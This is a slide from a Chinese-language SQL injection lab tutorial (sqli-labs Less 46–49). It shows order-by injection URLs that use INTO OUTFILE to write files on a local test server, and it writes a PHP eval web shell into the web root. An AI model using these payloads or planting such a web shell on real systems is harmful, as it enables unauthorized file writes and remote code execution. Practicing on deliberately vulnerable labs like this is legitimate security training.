

# 补充_less46-49关其他用法_01
在less46-49关中，我们通过对order by存在的注入部分进行了简单的分析，我们思考在这几关卡中能有其他的方法吗？
1. 我们利用在less45关写一句话的方法，类比将查询结果写到一个文件中：
   http://127.0.0.1/sqli/Less-49/?sort=0' into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\crow.txt'  --+
2. 我们写一句话木马：
php一句话木马：<?php   @eval($_POST[‘crow’]); ?>
绝对路径： C:\phpstudy\PHPTutorial\WWW\
使用函数： select xxx into  outfile xxx
select ‘<?php @eval($_POST[crow]);?>’ into outfile ‘C:\\phpstudy\\PHPTutorial\\WWW\\crow.php’(不要直接复制，自己照着打)
http://127.0.0.1/sqli/Less-49/?sort=0‘ and (select ’<?php @eval($_POST[crow]);?>‘)  into outfile ’C:\\phpstudy\\PHPTutorial\\WWW\\crow.php‘ --+  （注意这个地方是有括号的，他和以前的不一样）